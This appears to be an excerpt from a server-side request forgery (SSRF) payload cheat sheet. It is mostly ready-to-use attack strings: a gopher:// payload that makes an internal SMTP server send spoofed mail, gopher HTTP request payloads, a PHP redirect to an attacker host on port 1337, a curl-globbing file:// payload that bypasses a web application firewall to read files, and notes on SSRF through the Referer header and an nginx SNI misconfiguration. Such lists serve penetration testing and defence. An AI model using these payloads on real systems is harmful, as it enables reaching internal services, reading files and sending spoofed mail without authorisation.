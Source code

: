 ```html
ssrf.php?url=gopher://127.0.0.1:25/xHELO%20localhost%250d%250aMAIL%20FROM%3A%3Chacker@site.com%3E%250d%250aRCPT%20TO%3A%3Cvictim@site.com%3E%250d%250aDATA%250d%250aFrom%3A%20%5BHacker%5D%20%3Chacker@site.com%3E%250d%250aTo%3A%20%3Cvictime@site.com%3E%250d%250aDate%3A%20Tue%2C%2015%20Sep%202017%2017%3A20%3A26%20-0400%250d%250aSubject%3A%20AH%20AH%20AH%250d%250a%250d%250aYou%20didn%27t%20say%20the%20magic%20word%20%21%250d%250a%250d%250a%250d%250a.%250d%250aQUIT%250d%250a
will make a request like
HELO localhost
MAIL FROM:<hacker@site.com>
RCPT TO:<victim@site.com>
DATA
From: [Hacker] <hacker@site.com>
To: <victime@site.com>
Date: Tue, 15 Sep 2017 17:20:26 -0400
Subject: Ah Ah AHYou didn't say the magic word !
.
QUIT

//Gopher HTTP
#For new lines you can use %0A, %0D%0A
gopher://<server>:8080/_GET / HTTP/1.0%0A%0A
gopher://<server>:8080/_POST%20/x%20HTTP/1.0%0ACookie: eatme%0A%0AI+am+a+post+body

//Gopher SMTP — Back connect to 1337
<?php
header("Location: gopher://hack3r.site:1337/_SSRF%0ATest!");
?>Now query it.
https://example.com/?q=http://evil.com/redirect.php.

```
* **Curl URL globbing - WAF bypass**
  * https://blog.arkark.dev/2022/11/18/seccon-en/#web-easylfi
  * https://everything.curl.dev/cmdline/globbing

```html
file:///app/public/{.}./{.}./{app/public/hello.html,flag.txt}

```

* **SSRF via Referrer header**

Some applications employ server-side analytics software that tracks visitors. This software often logs the Referrer header in requests, since this is of particular interest for tracking incoming links. Often the analytics software will actually visit any third-party URL that appears in the Referrer header. This is typically done to analyze the contents of referring sites, including the anchor text that is used in the incoming links. As a result, the Referer header often represents fruitful attack surface for SSRF vulnerabilities.
To discover this kind of "hidden" vulnerabilities you could use the plugin "Collaborator Everywhere" from Burp.

* **SSRF via SNI data from certificate**

The simplest misconfiguration that would allow you to connect to an arbitrary backend would look something like this
```html
stream {
    server {
        listen 443; 
        resolver 127.0.0.11;
        proxy_pass $ssl_preread_server_name:443;       
        ssl_preread on;
    }
}

```
Here, the SNI field value is used directly as the address of the backend.